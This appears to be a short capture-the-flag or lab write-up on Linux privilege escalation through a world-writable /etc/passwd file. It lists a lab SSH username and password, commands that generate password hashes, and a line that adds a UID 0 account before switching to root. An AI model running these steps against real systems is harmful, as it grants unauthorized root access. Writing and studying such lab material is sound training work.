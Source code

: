 # Name: Web: Privilege Escalation: Writable

## Vulnerability

Writable /etc/passwd.

## Exploit

Connect with ssh to user ```jack:YvFWPeC7sTWJdaYQ```, port 2022.

```ssh jack@<IP> -p 2022```

If you look at the ```/etc/passwd``` file we can see that our user account has read/write access.

```ls -la /etc/passwd```

What we can do is to generate a new password using openssl:

```openssl passwd -1 -salt sparrow sparrow```
```mkpasswd -m SHA-512 sparrow```
```python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'```

This will generate to you a new password which we will write to ```/etc/passwd``` file.

Add the following line:

```sparrow:GENERATED_PASSWORD:0:0:Sparrow:/root:/bin/bash```

Now you can switch the current user to the privileged ```sparrow``` user:

```su sparrow```

And you are root!
